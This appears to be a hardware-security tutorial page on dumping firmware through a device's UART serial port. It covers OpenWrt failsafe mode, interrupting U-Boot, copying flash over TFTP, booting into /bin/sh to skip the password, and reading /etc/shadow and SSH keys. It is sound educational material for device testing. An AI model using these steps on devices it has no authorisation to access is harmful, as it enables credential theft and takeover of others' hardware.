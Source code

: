 # Extract Firmware using UART

#### At this point you should have:

* Understand what UART does (if not check: [UART](./))
* Identified UART pins (if not check:[ Identify UART](uart-from-start-to-finish.md))
* Got a working connection to UART (if not check: [Connect to UART](connect-to-uart.md))

#### Not all UART interfaces are the same. Infact manufacturers could output actually anything over it. So there is no guarante you can abuse UART to dump firmware or get a shell on the device. But there are common methods, which we want to discuss further:

{% tabs %}
{% tab title="Failsafe mode" %}
Some manufacturers build a failsafe mode in their devices, which is designed as a recovery option, if the device is not operating correctly. An example for this is OpenWRT, which will print something like this in the bootlog:

```
Press the [f] key and hit [enter] to enter failsafe mode
Press the [1], [2], [3] or [4] key and hit [enter] to select the debug level  
```

Pressing `F` will give us a root shell:

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption><p>OpenWrt command command shell</p></figcaption></figure>

Depending on your device you may have to mount the correct filesystem first:

* Run `ls /dev` or `blkid` to locate storage devices and partitions (e.g., `/dev/sda1`, `/dev/mmcblk0p2`).
* Use these commands to first create a mount point and then mound the filesystem:
  * `mkdir /mnt/filesystem`
  * `mount /dev/<root_partition> /mnt/filesystem`
* Now you may access the filesystem under `/mnt/filesystem`

From here we can check if the root-filesystem is already been mounted and we can look for:

* /etc/shadow hashes
* ssh private keys
* other credentials
{% endtab %}

{% tab title="U-Boot" %}
If U-Boot is used, chances are that the "stop autoboot" function may not be disabled. Here we have to press any key within a certain timespan (for example 5 sec) and we will be provided with a U-Boot shell

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Typing `help` will give us a list of all available commands

To dump the firmware, we can then use one of these options:

1. **Using TFTP:**
   1. On your attacker host:
      1. Set up a TFTP server `sudo apt install tftpd-hpa` (files will be stored in`/srv/tftp`)
      2. Create a firmware.bin file, as in TFTP that can't be done by the client:
         1. ```
            cd /srv/tftp
            sudo touch firmware.bin
            sudo chmod 666 firmware.bin
            ```
   2. In U-Boot:
      1. Setup IP-Adresses:
         1. ```
            setenv ipaddr <IP of target> (e.g.: 10.0.0.2)
            setenv serverip <IP of attacker host> (e.g.: 10.0.0.1)
            ```
      2. check if IP Adress are saved: `printenv`
   3. Initialize the flash with `sf probe 0`.
   4. Copy the flash contents to RAM (adjust offset and size):
      1. `sf read <addr in RAM> <offset in flash> <size>`
      2. `sf read 0x82000000 0x0 0x1000000`. (=16MB in this case)
   5. Transfer the data with TFTP:
      1. `tftp <addr> <filename> <size>`
      2. `tftp 0x82000000 firmware.bin 0x1000000`.
2. **Change Bootvariable**
   1. Idea: change the binary, which is run, when booting up ⇒ booting into /bin/sh will give us directly a shell, without the need to specify the password
   2. Steps:
      1. `printenv` Print out the current variables, save the boot-arguments (something like `bootargs=console=ttyS1,115200n8 mem=39M@0x0 rmem=25M@0x2700000 init=/linuxrc rootfstype=squashfs root=`&#x20;
      2. Now we can overwrite the bootargs variable to boot into /bin/sh
         1. `setenv bootargs "console=serial0,115200 console=tty1 init=/bin/sh"`
         2. Please adjust the baudrate(`115200)` if your device is using another
      3. Boot the system with the boot command
         1. `boot`
   3. Now you should be prompted with a root shell. Often you have to mount partitions, to be able to access all data
3. **Dump via Console**
   1. We can also dump it in the console: (CAN BE SLOW!)
      1. Read data:
         1. `md.b <offset to read from> <number of bytes to read>`
         2. example: `md.b 0x82000000 0x1000000`
         3. Save data to file using `CTRL-A L` in minicom for example (has to be trimmed)
   2. If we want to dump from an MMC:
      1.  ```bash
          #list available MMCs
          mmc list
          # select an MMC to dump (we have to select one else next commands fail)
          mmc dev 0
          #get info of mmc
          mmc info
          # get partition to see which partition we wanna dump (e.g. rootfs)
          mmc part
          # search in partition
          ext4ls mmc <device>:<partition> <path>
          ext4ls mmc 1:8 /home/root
          # read file from MMC to RAM
          ext4load mmc <device>:<partition> <memory_address in ram> <file_path>
          ext4load mmc 1:8 0xC6200000 /etc/shadow
          # show the file from memory
          md.b <memory_address in ram> <size>
          md.b 0xC6200000 0x43C
          ```

          Tool that does these steps automatically:[ https://github.com/nmatt0/firmwaretools](https://github.com/nmatt0/firmwaretools)
4.
{% endtab %}

{% tab title="Root-shell" %}
If you drop directly into a root shell or if you can figure out the root-password (e.g. default creds), you can simply `dd` the partition to a usb stick or transfer it another way.

Example:

```bash
sudo dd if=/dev/sda of=/dev/sdb bs=4M status=progress
```

Replace:

* `/dev/sda` with your root filesystem device
* `/dev/sdb` with your USB stick device

Ensure you verify the correct device paths to avoid overwriting important data. You can use `lsblk` or `fdisk -l` to check your devices.
{% endtab %}
{% endtabs %}

## Analyze firmware

* Using `binwalk firmware.bin` we can try to analyze the firmware and extract sensitive information
* check the "[Analyze Firmware](../../analyze-firmware.md)" chapter

## Resources

\*[Accessing and Dumping Firmware Through UART](https://www.cyberark.com/resources/threat-research-blog/accessing-and-dumping-firmware-through-uart) \*[Extracting Firmware: Every Method Explained](https://slava-moskvin.medium.com/extracting-firmware-every-method-explained-e94aa094d0dd)
